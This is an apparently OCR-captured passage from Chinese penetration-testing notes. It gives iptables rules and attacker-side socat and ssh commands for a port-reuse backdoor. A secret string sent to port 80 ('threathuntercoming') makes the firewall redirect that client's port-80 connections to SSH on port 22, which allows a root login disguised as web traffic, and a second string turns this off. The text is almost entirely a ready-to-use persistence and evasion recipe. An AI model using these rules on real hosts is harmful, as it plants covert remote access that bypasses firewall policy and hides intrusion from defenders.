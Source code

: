 	>iptables -t nat -N LETMEIN 
	>iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
	# 开启开关
	>iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
	# 关闭开关
	>iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
	>iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
	攻击端：
	#开启复用
	>echo threathuntercoming | socat - tcp:192.168.0.110:80
	#ssh使用80端口进行登录
	ssh -p 80 root@192.168.0.110
	#关闭复用
	echo threathunterleaving | socat - tcp:192.168.0.110:80
![image](/assets/Pentest_Note/master/img/580.png)